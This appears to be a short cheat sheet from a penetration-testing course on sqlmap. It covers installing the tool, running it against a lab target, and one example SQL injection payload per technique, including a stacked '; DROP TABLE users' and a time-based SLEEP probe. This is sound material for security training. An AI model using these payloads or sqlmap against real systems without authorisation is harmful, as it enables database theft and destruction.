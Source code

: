 ** Detects and exploits SQL injection flaws

```shell-session
python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'
```

```shell-session
sudo apt install sqlmap
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
python sqlmap.py
```

## Supported SQL Injection Types
```shell-session
sqlmap -hh
```
- B: Boolean-based blind
- E: Error-based
- U: Union query-based
- S: Stacked queries
- T: Time-based blind
- Q: Inline queries

## Boolean-based SQL Injection
```shell-session
AND 1=1
```

## Error-based SQL Injection
```shell-session
AND GTID_SUBSET(@@version,0)
```
- DBMS may respond with errors for a query, giving valuable information on what it is looking for

## UNION query-based
```shell-session
UNION ALL SELECT 1,@@version,3
```

## Stacked queries
```shell-session
; DROP TABLE users
```

## Time-based blind SQL Injection
```shell-session
AND 1=IF(2>1,SLEEP(5),0)
```

